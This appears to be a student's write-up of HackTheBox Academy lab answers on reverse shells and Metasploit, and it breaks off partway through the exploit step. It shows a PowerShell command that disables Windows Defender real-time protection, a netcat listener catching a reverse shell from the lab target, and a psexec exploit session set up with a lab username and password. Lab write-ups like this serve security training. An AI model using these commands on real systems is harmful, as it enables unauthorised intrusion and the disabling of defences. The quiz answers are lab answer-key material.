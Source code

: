 # Reverse Shells

-  When establishing a reverse shell session with a target, will the target act as a client or server? > Client

- Connect to the target via RDP and establish a reverse shell session with your attack box then submit the hostname of the target box.

On the target, run powershell as administrator:
```powershell
Set-MpPreference -DisableRealtimeMonitoring` $true
```

Next, run cmd.exe them run this payload:
![](images/1.png)

On the VM:

```zsh
rlwrap nc -lnvp 4444
```

```powershell
listening on [any] 4444 ...
connect to [10.10.14.124] from (UNKNOWN) [10.129.201.51] 49874
whoami
shells-win10\htb-student
PS C:\Users\htb-student> hostname
Shells-Win10
PS C:\Users\htb-student> 
```

# Automating Payloads & Delivery with Metasploit

- What command language interpreter is used to establish a system shell session with the target?
> Powershell

-  Exploit the target using what you've learned in this section, then submit the name of the file located in htb-student's Documents folder. (Format: filename.extension)
```zsh
❯ sudo msfconsole -q
msf6 > search exploit windows smb psexec
msf6 > use 22
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
[*] New in Metasploit 6.4 - This module can target a SESSION or an RHOST

msf6 exploit(windows/smb/psexec) > set rhosts 10.129.201.160
rhosts => 10.129.201.160
msf6 exploit(windows/smb/psexec) > set SMBUser htb-student
SMBUser => htb-student
msf6 exploit(windows/smb/psexec) > set SMBPass HTB_@cademy_stdnt!
```